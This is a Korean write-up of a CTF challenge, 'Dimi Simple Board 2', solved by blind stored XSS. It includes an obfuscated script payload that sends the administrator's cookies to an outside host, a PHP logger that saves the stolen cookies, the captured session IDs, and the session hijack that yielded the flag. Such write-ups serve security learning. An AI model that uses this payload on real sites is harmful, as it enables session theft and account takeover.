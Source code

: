 # Dimi Simple Board 2 (920p)
## Overview
관리자는 여러분들의 의견을 잘 듣습니다.  
BLIND STORED XSS  
http://121.170.91.15/jtjjtjjtjjtjjtjj/  

## Solution

이 문제는 Simple Board 1과 같은 환경에서 이루어 졌다

문제를 보니 아마도 관리자는 사용자들의 목소리를 잘 듣습니다..? 같이 적혀있었던 걸로 기억한다

그리고 commment 란에는 관리자만이 볼 수 있다고 한다  

인터넷 환경이 나쁘다는 것을 깨닫지 못할 동안 댓글을 몇개 달아봤는데 차례차례 read가 1로 바뀌는 것을 볼 수 있었다

그래서 sql injection으로 그 안의 내용을 읽어 봤는 데 특별한 내용이 없어서 관리자만 볼 수 있다는 것에 중점을 두어 body에 xss를 통한 PHPSESSID 탈취를 시도했다  

해당 cookie를 받아 파일로 저장해 놓기 위해 다음과 같은 xss 코드와 php 코드를 작성하였다

```html
<script>location.href="http://chatbottest.dothome.co.kr/get.php?c"+"oo"+"kie=" + encodeURI(eval('document'+'.c'+'ookie'));</script>
```

```php
<?php
    file_put_contents('log',$_GET['cookie'].PHP_EOL, FILE_APPEND);
?>
```

저렇게 xss코드를 작성한 것은 document.cookie 가 필터링 되는 줄 알았기 때문인데 document.cookie를 필터링 하지는 않았었고 다른 것의 문제였었다.. (무료 호스팅 서버에서 체크하는 것이 문제였다)  

결론적으로 빠르게 read 1표시로 바뀌었고

그곳에는 세션아이디로 보이는 값이 있었다

```
ID=tn2s8ubjd7behoig6ogi54jkd7
ID=g220tsstd0637g0cttgq7eqtj3
```

그 세션값으로 바꾸어 들어갔더니 flag가 있었다

현재는 세션값이 바뀌었는지 그 장면을 볼 수는 없지만 일단 그렇다


## flag
dimi{this_is_blind_store_xss}